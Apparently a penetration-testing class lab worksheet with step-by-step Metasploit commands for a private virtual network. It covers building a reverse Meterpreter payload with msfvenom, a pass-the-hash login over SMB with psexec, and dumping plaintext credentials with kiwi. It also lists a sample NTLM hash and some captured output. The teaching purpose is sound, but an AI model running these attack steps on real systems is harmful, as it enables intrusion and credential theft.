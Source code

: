 1. Download M1 from Google Drive

2. Start:
-Kali2<BR>
-2k8dc_a2<BR>
-2k8m2_a1<BR>


3. On the Kali2 host, set a static IP 192.168.168.110<BR>
ifconfig eth0 192.168.168.110<BR>
ifconfig eth0 netmask 255.255.255.0<BR><BR>

4. Repeat last week’s step's to gain the password hash from M2 (refer to last week's notes). You'll want to grab the 32 characters on one side of the : and the 32 characters afterwards, such as<BR> aad3b435b51404eeaad3b435b51404ee:e7bf67913f1f54abf11af55aee36b9e9<BR>

5. Generating a reverse meterpreter payload within msfvenom (Kali 2):<BR>
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.168.110 lport=7477 -f exe -o /var/www/html/payload.exe<BR>
#Then don’t forget to start a listener and restart apache<BR>

6. Copy password and hash to a text file on the Kali box for reference.<BR>
7. Stop the VM 2k8m2_a1<BR>
8. Start the VM 2k8m1<BR>
9. Determine M1’s IP<BR>
10. Perform information gathering and enumeration against M1 with nmap<BR>
11. We know the password for M2's local Administrator, let's try it against M1.<BR>
12. With SMB open, what can we use to get onto M1?  The psexec module is often used by penetration testers to obtain access to a given system that you already know the credentials for. #It was written by sysinternals and has been integrated within the framework.<BR>
13. Within msfconsole:<BR>
use exploit/windows/smb/psexec<BR>
set rhost 192.168.168.101<BR>
set SMBUser Administrator<BR>
set SMBPass aad3b435b51404eeaad3b435b51404ee:e7bf67913f1f54abf11af55aee36b9e9<BR>
show options<BR>
set payload windows/meterpreter/reverse_tcp<BR>
set lhost 192.168.168.110<BR>
set lport 7479<BR>
exploit<BR>
14. meterpreter > hashdump<BR>
[-] priv_passwd_get_sam_hashes: Operation failed: The parameter is incorrect.<BR>
meterpreter > sysinfo<BR>
Computer        : M1<BR>
OS              : Windows 2008 R2 (Build 7601, Service Pack 1).<BR>
Architecture    : x64 (Current Process is WOW64)<BR>
meterpreter > background<BR>

15. Move to a 64bit Meterpreter session:<BR>
msfconsole> use windows/local/payload_inject <BR>
set payload windows/x64/meterpreter/reverse_tcp <BR>
set session x<BR>
set lhost 192.168.168.110<BR>
exploit<BR>
meterpreter> sysinfo<BR>

16. Now try getting the password in plaintext. If for some reason you don’t see Alice’s password within a 64 bit Meterpreter shell, you need to delete the M1 virtual and re-extract the zip file or redownload it from Google Drive. Remember, interactive logins are wiped from memory when the system restarts!<BR>
meterpreter> load kiwi<BR>
meterpreter> help<BR>
meterpreter> creds_all<BR>
Now that you have the creds, how did you get them? From what insecure package?<BR>
  
17. Via RDP, connect to the DC with the new creds for Alice.<BR>
18. How did you find missing patches before?<BR>
  
  
  
